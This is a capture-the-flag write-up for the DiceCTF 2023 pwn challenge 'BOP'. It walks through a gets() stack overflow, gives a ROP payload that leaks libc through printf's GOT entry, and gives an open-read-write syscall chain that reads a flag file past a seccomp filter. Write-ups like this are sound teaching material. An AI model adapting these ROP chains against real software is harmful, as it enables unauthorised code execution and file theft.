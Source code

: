 ```yaml
---
title: "Dice 23 BOP"
date: 2023-02-11 17:31:30 -0400
categories: Pwn
---
```

# BOP
This is write-up for BOP.

The source code of main is as follows:
```
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[32]; // [rsp+0h] [rbp-20h] BYREF

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  printf("Do you bop? ");
  return gets(v4);
}
```

The last line of main calls gets to receive inputs to a buffer and returns using gets' return value.

Running checksec gives:
```    
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
And we can verify that the binary uses seccomp tools:
```
# seccomp-tools dump ./bop                                                                                   [±PIE ●]
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0xc000003e  if (A != ARCH_X86_64) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x06 0xffffffff  if (A != 0xffffffff) goto 0011
 0005: 0x15 0x04 0x00 0x00000000  if (A == read) goto 0010
 0006: 0x15 0x03 0x00 0x00000001  if (A == write) goto 0010
 0007: 0x15 0x02 0x00 0x00000002  if (A == open) goto 0010
 0008: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0010
 0009: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0011
 0010: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 ```

## Attack Plan
We can control the return address and perform ORW (Open Read Write) using ROP.
I've done ORW from [pwnable.tw](https://pwnable.tw/challenge/#2) using shellcoding but it was my first time using ROP, but the logic remains the same. It's just a matter of syntax.
## Pre-requisite
To perform ROP, we need to leak the libc base.
The GOT does not import puts, so I'll use printf.
The ROP payload to leak GOT entry of printf is as follows:
```
payload = b"A"*40 # offset
payload += p64(ret)
payload += p64(ret)
payload += p64(rdi)             # 1st parameter
payload += p64(e.got['printf'])
payload += p64(rsi)             # 2nd parameter (two pops)
payload += p64(e.got['printf'])
payload += p64(e.got['printf'])
payload += p64(e.plt['printf']) # call printf_plt
payload += p64(ret)
payload += p64(main) # return to main
```
The first two rets are to align bytes. 0 or 1 ret doesn't work (idk why).
The pop_rsi gadget I found pops to two registers, so I included two printf_got entries after pop_rsi.

## ORW
Using the leaked libc base, we can find other useful gadgets like pop_rax, pop_rdx, and syscall.

note: *make sure to find the stable syscall instruction, like read+0x10.*

We can run ROP again but now invoking ORW.
To store the contents of the file read, I'll use bss+0x800 (no special reason).

The payload is as follows:
```
"""OPEN"""
payload = b"A"*40
payload += p64(rdi) + p64(bss+0x800)
payload += p64(e.plt["gets"])
payload += p64(rdi)+p64(bss+0x800)
payload += p64(rsi) + p64(0) + p64(0)
payload += p64(rdx) + p64(0) 
payload += p64(rax) + p64(2)
payload += p64(syscall)

"""READ"""
payload += p64(rdi)+p64(3)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(0) 
payload += p64(rdx)+p64(0xff) 
payload += p64(syscall)

"""WRITE"""
payload += p64(rdi)+p64(1)
payload += p64(rsi)+p64(bss+0x800) + p64(0)
payload += p64(rax)+p64(1) 
payload += p64(rdx)+p64(0xff)
payload += p64(syscall)
```

We follow the standard [x64 syscall convention](https://syscalls64.paolostivanin.com/) to set the parameters of each component of ORW.

* set rdi to bss to store user input
* call gets
After user sends an input, it will be stored in BSS, in this case it will be "./flag.txt".
* set rdi to bss again
* set rsi (two pops) and rdx to 0
* set rax to 2
* syscall

Similar procedures are performed for Open and Write syscalls.
note: *cross compare with x64 syscall chart!*

### End
Then I send the payload along with "./flag.txt" and receive the output to get the flag.


